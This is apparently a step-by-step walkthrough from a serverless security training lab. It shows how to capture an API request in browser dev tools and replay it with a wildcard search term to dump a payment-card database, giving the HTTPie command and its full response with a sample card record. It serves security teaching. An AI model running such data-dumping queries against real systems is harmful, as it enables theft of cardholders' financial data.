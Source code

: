 ## Exploit based on IAM Permission Flaw

##### Step 1:

* Open browser

![](img/open-browser.png)


##### Step 2:

* open `http://sls-training-ui.s3-website-us-east-1.amazonaws.com/` to access the XML-Uploader application.

![](img/login-page.png)

##### Step 3:

* Register if necessary and once logged in, click on `Search` icon to search for information.

![](img/search-icon.png)


##### Step 4:

* Click `Shift + f9` or right click on top of the browser and click on `Web Developer` to select the `Networks` tab.

![](img/local-storage.png)


##### Step 5:

* Search user related info

    **Note:** Copy the URL

![](img/network.png)

##### Step 6:

* Click on the `Params` tab

    **Note:** Copy the json payload

![](img/param.png)



##### Step 7:

* Open Terminal

![](img/Open-Terminal.png)


##### Step 8:

* Run `http POST https://a2to86jcrb.execute-api.us-east-1.amazonaws.com/api/bad_dynamo_search <<<'{
        "db": "2htw3dwxnc-payment-cards",
        "search_field": "card_number",
        "search_operator": "GT",
        "search_term": "*"
    }'` to get all the payment card information from the database.
    
    ```commandline
    http POST https://a2to86jcrb.execute-api.us-east-1.amazonaws.com/api/bad_dynamo_search <<<'{
            "db": "2htw3dwxnc-payment-cards",
            "search_field": "card_number",
        "search_operator": "GT",
        "search_term": "*"
    }'
    HTTP/1.1 200 OK
    Access-Control-Allow-Headers: Authorization,Content-Type,X-Amz-Date,X-Amz-Security-Token,X-Api-Key
    Access-Control-Allow-Origin: *
    Connection: keep-alive
    Content-Length: 2169
    Content-Type: application/json
    Date: Tue, 09 Oct 2018 01:32:53 GMT
    Via: 1.1 aa89533ad2ec5e0edba466c9920bd000.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: X8szCarsQAv9oUWSw82v9hpsA-QyfvP8PlDA1cIIgocKOITW2661dg==
    X-Amzn-Trace-Id: Root=1-5bbc0545-5a84835cd05bd8b4bd31a502;Sampled=0
    X-Cache: Miss from cloudfront
    x-amz-apigw-id: OeXCzHEgoAMFqSw=
    x-amzn-RequestId: 3db038ff-cb63-11e8-92a8-adaf88305995
    
    {
        "search_results": [
            {
                "card_number": {
                    "S": "4994684175713024"
                },
                "cardholder": {
                    "S": "Amanda Smith"
                },
                "exp_date": {
                    "N": "523"
                }
            }
            ]
            }
    ```
